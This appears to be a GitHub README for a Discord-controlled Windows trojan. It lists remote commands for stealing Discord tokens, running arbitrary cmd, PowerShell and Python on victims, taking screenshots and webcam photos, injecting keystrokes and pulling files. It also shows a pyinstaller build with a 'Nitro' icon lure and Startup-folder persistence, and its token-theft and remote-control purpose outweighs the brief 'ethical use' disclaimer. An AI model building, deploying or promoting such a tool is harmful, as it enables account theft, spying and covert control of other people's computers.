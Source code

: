 # LeChuck-DiscordTrojan
A trojan for pc that can be controlled via discord, Reverse shell (powershell, cmd, python), Get pc informations, desktop alerts, take pictures (screenshot, photos), simulate a virtual keyboard, get files


<br>

> ## Commands:

<hr>


```
> help [pc name] 
==================[ PC INFO ]==================
> connections
> token [pc name]
> ipinfo [pc name] 
> info [pc name] 
> advence_info [pc name]
> battery [pc name]

==================[ REVERSE SHELL ]==================
> cmd [pc name] [command]
> powershell [pc name] [command]
> py [pc name] [script]

==================[ ALERTS ]==================
> alert [pc name] [title];[text];[button]
> textbox [pc name] [title];[text]

==================[ PICTURE ]==================
> photo [pc name]
> screenshot [pc name]

==================[ KEYBOARD ]==================
> keydown [pc name] [key]
> keyup [pc name] [key]
> press [pc name] [key]
> write [pc name] [text]
> writee [pc name] [text]

==================[ FILES ]==================
> cd [pc name] [directory]
> dir [pc name]
> file [pc name] [file name]
```

<br>
<hr>
<br>

> ### generate exe :
> ```yaml
> pyinstaller --noconfirm --onefile --icon "icons\Nitro.ico" --windowed "main.py"
> ```

> ### remove the trojan:
> cmd:
> ```yaml
> C:\>taskkill /f /im trojan_name.exe
> ```
> open `"C:\Users\[COMPUTER USERNAME]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"` in the file explorer
>
> and then remove [trojan name].exe

> ### remove the trojan via discord:
> `>cmd [pc name] taskkill /f /im trojan_name.exe`
>
> `>cmd [pc name] del "C:\Users\`[COMPUTER USERNAME]`\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`[TROJAN NAME]`.exe"`


<br>
<hr>
<br>

> TOS:
> ```yaml
> - this trojan was created for ETHICAL purpose
> - don't use it on people who haven't given you permission
> ```
